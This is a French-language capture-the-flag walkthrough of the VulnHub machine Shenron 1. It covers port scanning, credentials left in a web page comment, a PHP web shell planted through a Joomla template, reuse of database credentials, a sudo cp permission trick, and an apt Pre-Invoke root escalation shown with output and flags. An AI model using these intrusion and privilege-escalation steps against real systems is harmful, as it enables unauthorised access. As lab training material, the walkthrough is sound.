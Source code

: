 # Solution du CTF Shenron 1 de VulnHub

[shenron: 1](https://vulnhub.com/entry/shenron-1,630/) fait partie d'une série de CTFs proposée sur VulnHub et créé par [@shubhammandloi](https://twitter.com/shubhammandloi).

```
Nmap scan report for 192.168.56.60
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0e22600af7d478f64208d76a6bb0b162 (RSA)
|   256 b30ccd0a67c3abd22327021fb2fb9112 (ECDSA)
|_  256 2973e0f26df6fbde4c6fb27a1969f582 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu
```

## Comme une lettre à la poste

Le site web fournit directement la page par défaut d'Apache donc on attaque directement avec l'énumération web.

Je trouve déjà des identifiants dans un dossier `test` :

```html
$ curl http://192.168.56.60/test/password
<!DOCTYPE html>
<html>
<head>
        <title>PASSWORD</title>
</head>
<body>
        <h1>LOTS OF INFORMATION ARE HERE ;-)</h1>


        <h1> You Are Very Near .......</h4>

        <!--
         "All The Best"
         Credentials:- "admin:3iqtzi4RhkWANcu@$pa$$"

         --> 
</body>
</html>
```

Et deuxièmement un Joomla installé à l'adresse `/joomla` (tout simplement)

Il faut se rendre sur `/joomla/administrator` pour accèder au panel d'administration.

On ne croise pas du Joomla très régulièrement sur les CTFs. Heureusement j'ai déjà eu le cas sur le CTF [Rosee de Wizard Labs](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Rosee%20de%20Wizard%20Labs.md#its-all-about-osint-you-fool) par conséquent je me suivre le même cheminement pour éditer le template par défaut et ajouter un fichier PHP qui me donnera mon shell web.

Transformé à peine une minute plus tard en beau reverse shell avec PTY, j'en profite pour regarder dans `/etc/passwd` :

```
jenny:x:1001:1001::/home/jenny:/bin/bash
shenron:x:1002:1002::/home/shenron:/bin/bash
```

## Jenny! Jenny! Jenny!

Quand je recherche les fichier de jenny je ne trouve que son dossier personnel et le fichier `/var/www/html/joomla/htaccess.txt`. Ce dernier ne contient rien d'intéressant (juste des règles d'URL rewriting).

Pour shenron il y a un fichier sans doute intéressant mais non lisible pour le moment :

`-rwx------ 1 shenron shenron 43 Dec 13  2020 /var/opt/password.txt`

Dans le fichier de configuration de Joomla je trouve des infos prometteuses :

```php
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'jenny';
        public $password = 'Mypa$$wordi$notharD@123';
        public $db = 'joomla_db';
        public $dbprefix = 'sotv8_';
        public $live_site = '';
        public $secret = '3xAUrgQhKGZjsund';
```

Je zappe directement l'étape MySQL et j'utilise les identifiants qui marchent pour un `su jenny`.

De là je remarque que je peux exécuter une commande en tant que shenron :

```shellsession
jenny@shenron:~$ sudo -l
Matching Defaults entries for jenny on shenron:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on shenron:
    (shenron) NOPASSWD: /usr/bin/cp
```

Je ne peux pas exploiter la situation pour récupérer le fichier password :

```shellsession
jenny@shenron:~$ sudo -u shenron /usr/bin/cp /var/opt/password.txt /tmp/
jenny@shenron:~$ cat /tmp/password.txt 
cat: /tmp/password.txt: Permission denied
jenny@shenron:~$ ls -al /tmp/password.txt
-rwx------ 1 shenron shenron 43 Nov 17 21:23 /tmp/password.txt
```

On peut passer outre en indiquant de ne pas préserver les permissions du fichier :

```shellsession
jenny@shenron:~$ sudo -u shenron /usr/bin/cp --no-preserve=mode /var/opt/password.txt /tmp/password2.txt
jenny@shenron:~$ ls -al /tmp/password2.txt 
-rw-rw-r-- 1 shenron shenron 43 Nov 17 21:26 /tmp/password2.txt
jenny@shenron:~$ cat /tmp/password2.txt
shenron : YoUkNowMyPaSsWoRdIsToStRoNgDeAr
```

Depuis l'utilisateur shenron je peux obtenir le premier flag :

```shellsession
shenron@shenron:~$ cat local.txt 
098bf43cc909e1f89bb4c910bd31e1d4
```

## Say cAPTain, say wot

Let's go pour un GTFObins ?

```shellsession
shenron@shenron:~$ sudo -l
[sudo] password for shenron: 
Matching Defaults entries for shenron on shenron:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shenron may run the following commands on shenron:
    (ALL : ALL) /usr/bin/apt
```

GTFObins a [plusieurs astuces pour apt](https://gtfobins.github.io/gtfobins/apt/) mais certaines semblent nécessiter une connexion à Internet et la VM est configurée en host only. La dernière fonctionne correctement ici : 

```shellsession
shenron@shenron:~$ sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
                                                               
  mmmm  #                                                mmm   
 #"   " # mm    mmm   m mm    m mm   mmm   m mm            #   
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           #   
     "# #   #  #""""  #   #   #     #   #  #   #   """     #   
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         mm#mm 
                                                               
Your Root Flag Is Here :- aa087b2d466cd593622798c8e972bffb



If You Like This Machine Follow Me On Twitter..
Twitter Handle:-    https://twitter.com/shubhammandloi or @shubhammandloi
```

Ce fut très rapide :p
